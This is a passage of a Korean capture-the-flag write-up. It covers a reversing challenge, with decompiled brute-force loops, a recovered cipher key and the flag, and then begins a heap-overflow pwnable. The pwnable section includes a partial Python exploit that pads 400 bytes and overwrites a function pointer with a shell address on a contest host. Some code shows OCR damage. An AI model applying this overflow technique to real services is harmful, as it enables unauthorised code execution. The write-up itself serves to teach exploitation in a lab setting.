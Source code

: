 ``` c
  }
  for(i = 0;i<256;i++)
  {
    if(sub_4012C0(i) =  = 771)
      print f("7%02x\n",i);
  }
  for(i = 0;i<256;i++)
  {
    if(sub_401260(i) =  = 658)
      print f("8%02x\n",i);
  }
  for(i = 0;i<256;i++)
  {
    if(sub_401100(i) =  = 1012)
      print f("9%02x\n",i);
  }
  for(i = 0;i<256;i++)
  {
    if(sub_401160(i) =  = 38)
      print f("10%02x\n",i);
  }
}
```

이 프로그램을 실행 시킨 결과를 shambles 파일에 넣었더니 다음과 같은 결과를 얻을 수 있었다.

``` bash
shambles.exe 68 40 70 70 31 6e 33 73 73 21
valid!!
cipher key is : h@pp1n3ss!
```

하지만 얻을 수 있는게 없었고 이 루틴에서 파일의 경로를 얻어와서 파일을 하나 출력해주는 것을 알 수 있었고 Ollydbg를 이용해 동적 디버깅해보니 C:\\Users\\XX\\AppData\\Local\\Temp 폴더에 FLAGKEY.decrypted.png 라는 이름으로 플래그를 출력해주었다.

FLAG : HU37_HF2017{Do_U_1ike_p0nce_p1ugin_of_ida}

## 0x0E Pwnable Do It Your Heap Ex [100]
- Stack Bof 아닌 문제가 나와서 기뻣는데 그 기쁨도 잠시....
- malloc 이후 해당 힙 영역에 함수 포인터를 지정한 후 사용하는데, 해당 범위까지 접근이 가능하여 함수 포인터를 덮을 수 있음.

```python
import socket
from struct import *

p32 = lambda x:pack("<L",x)
host = "223.194.105.182"
port = 29001

def until(msg):
	data = ''
	while True:
		data += s.recv(1)
		if msg in data:
			return data

s = socket.socket()
s.connect((host, port))

print until("First, Input anythings :")

shell_addr = 0x08048980
payload = "a" * 400
payload += p32(shell_addr)

```